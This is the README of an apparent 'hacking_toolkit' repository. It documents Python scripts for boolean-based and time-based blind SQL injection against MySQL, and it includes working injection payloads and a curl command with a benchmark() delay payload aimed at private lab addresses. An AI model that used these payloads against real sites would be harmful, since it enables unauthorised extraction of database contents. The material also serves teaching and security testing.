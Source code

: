 # hacking_toolkit

**requirements:**

* Python 3
* python-requests


## SQL Injection

Works on MySQL >= 5.

### blind_get_list_data.py
* Requires a vulnerable url with get param, and an expected string from normal result
* Uses bitwise operations to retrieve a character in 8 requests.

An url is vulnerable to this exploit if:

* Normal request `http://172.28.128.3:8007/membre.php?id=7` returns results
* Request `http://172.28.128.3:8007/membre.php?id=7' and 1='1` also
  returns results.
* But request `http://172.28.128.3:8007/membre.php?id=7' and 1='0`
  doesn't return any results.

This allows us to ask many yes/no questions to MySQL, and figure out table
names, columns names and data.


### blind_post_list_data.py
* Requires an url with vulnerable form, and its keys
* Uses bitwise operations to retrieve a character in 8 requests.

An url is vulnerable to this exploit if:

* a normal request is executed in some time, here **0.005s**:

  ```
  $ time curl -d user_name="" -d password="" http://172.28.128.3:8009/validate.php &> /dev/null
  0.00s user 0.00s system 70% cpu 0.005 total
  ```
* the exploit takes much longer to return a result, here **1.5s**:

  ```
  $ time curl -d user_name="' and if(1=1, benchmark(5000000,md5(char(1))),null)#" -d password="" http://172.28.128.3:8009/validate.php &> /dev/null
  0.00s user 0.00s system 0% cpu 1.505 total
  ```
This is the same principle as `blind_get_list_data.py`, except it's a post
request and we check the result by monitoring the execution time of the page
